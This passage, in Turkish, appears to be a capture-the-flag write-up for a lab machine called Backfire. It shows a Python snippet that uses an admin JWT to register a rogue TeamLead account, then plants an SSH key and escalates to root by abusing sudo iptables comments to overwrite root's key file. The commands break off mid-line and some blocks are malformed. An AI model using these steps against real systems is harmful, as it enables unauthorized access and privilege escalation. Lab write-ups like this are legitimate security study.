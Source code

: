 ```
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

![Pasted image 20250121204206.png](/img/user/Pasted%20image%2020250121204206.png)

Çalıştırdıktan sonra kullanıcının başarıyla oluşturulduğunu görebilirsiniz. Ardından [https://127.0.0.1:7096/](https://127.0.0.1:7096/) adresine gidin ve kullanıcı adı ve şifre ile giriş yapın.

Simüle edilmiş terminale gelerek komutlar çalıştırın.

Aynı yöntemle kendi SSH anahtarınızı Sergej'in anahtarlarına ekleyin.

```
username : sth_pentest
username : sth_pentest
```

![Pasted image 20250121205301.png](/img/user/Pasted%20image%2020250121205301.png)

![Pasted image 20250121205821.png](/img/user/Pasted%20image%2020250121205821.png)

![Pasted image 20250121205901.png](/img/user/Pasted%20image%2020250121205901.png)

Ardından sudo izinleri komutunu görmek için ssh kullanarak sergej'de oturum açın

![Pasted image 20250121205928.png](/img/user/Pasted%20image%2020250121205928.png)

iptables ile ilgili power-up'ları arayın

https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

https://cn-sec.com/archives/3193918.html

Yorumlama işlevi, diğer dosyaların üzerine yazmak için kullanılabilir, bu nedenle bazı hassas dosyaların üzerine yazmayı düşünebilirsiniz, özellikle root kimliğini taklit edebilecek dosyaları.

```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment 

Testler sonucunda bu `comment`'in uzunluğunun çok fazla olamayacağı belirlendi, bu nedenle SSH anahtarının uzunluğu nispeten kısa olmalıdır.

![Pasted image 20250121210235.png](/img/user/Pasted%20image%2020250121210235.png)

Ardından root'un anahtar dosyasının üzerine yazın

```
sergej@backfire:~$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment 
